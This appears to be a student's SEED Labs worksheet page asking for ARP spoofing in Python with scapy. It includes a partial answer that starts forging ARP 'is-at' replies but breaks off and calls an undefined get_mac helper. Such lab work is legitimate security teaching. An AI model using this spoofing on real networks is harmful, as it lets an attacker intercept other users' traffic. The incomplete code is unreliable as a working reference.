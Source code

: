 ![Alt text](image-19.png)

[Your response goes here.]
Task 6. Implement ARP spoofing in Python

Overview: Instead of using Linux’s  arpspoof tool, you should implement it in Python using the “scapy” package.

Steps:
(Google it.)
(Make sure to save the code somewhere on your computer, but not in SEED Labs. Once you shut down a container, your files are gone forever.)

Question 3.1:
Paste your code below.
```
from scapy.all import ARP, Ether, sendp
import time

def spoof_arp(target_ip, spoof_ip, iface="eth0"):
    # Get the MAC address of the target IP
    target_mac = get_mac(target_ip)

    # Create ARP response to masquerade the spoof_ip with our MAC address
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=spoof_ip, op="is-at")
    
    # Create the Ethernet frame
```